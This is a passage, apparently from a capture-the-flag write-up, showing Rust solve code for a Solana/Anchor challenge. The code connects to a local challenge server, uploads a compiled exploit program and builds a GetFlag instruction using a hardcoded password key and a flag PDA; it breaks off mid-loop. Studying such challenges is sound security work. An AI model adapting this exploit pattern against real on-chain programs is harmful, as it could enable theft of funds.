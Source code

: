 ```rust
    pub payer: Signer<'info>,
    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```

`framework-solve/src/main.rs`:

```rust
use chall::anchor_lang::{InstructionData, ToAccountMetas};
use chall::FLAG_SEED;
use solana_program::pubkey;
use solana_program::pubkey::Pubkey;
use std::net::TcpStream;
use std::{error::Error, fs, io::prelude::*, io::BufReader, str::FromStr};

fn get_line<R: Read>(reader: &mut BufReader<R>) -> Result<String, Box<dyn Error>> {
    let mut line = String::new();
    reader.read_line(&mut line)?;

    let ret = line
        .split(':')
        .nth(1)
        .ok_or("invalid input")?
        .trim()
        .to_string();

    Ok(ret)
}

fn main() -> Result<(), Box<dyn Error>> {
    let mut stream = TcpStream::connect("127.0.0.1:8080")?;
    let mut reader = BufReader::new(stream.try_clone().unwrap());
    let mut line = String::new();
    let so_data = fs::read("./solve/target/deploy/solve.so")?;
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", solve::ID)?;
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", so_data.len())?;
    stream.write_all(&so_data)?;
    let chall_id = chall::ID;
    let user = Pubkey::from_str(&get_line(&mut reader)?)?;
    let ix = solve::instruction::GetFlag {};
    let data = ix.data();
    let password = Pubkey::from_str("8W4K4D8y1y7nXqNAYc3CtBMWj1dFDJRxrSbqffLTSg8u")?;
    let state = Pubkey::find_program_address(&[FLAG_SEED], &chall_id).0;
    let ix_accounts = solve::accounts::GetFlag {
        state,
        password: password,
        payer: user,
        token_program: spl_token::ID,
        chall: chall_id,
        system_program: solana_program::system_program::ID,
        rent: solana_program::sysvar::rent::ID,
    };
    let metas = ix_accounts.to_account_metas(None);
    reader.read_line(&mut line)?;
    writeln!(stream, "{}", metas.len())?;
    for meta in metas {
        let mut meta_str = String::new();
        meta_str.push('m');
        if meta.is_writable {
```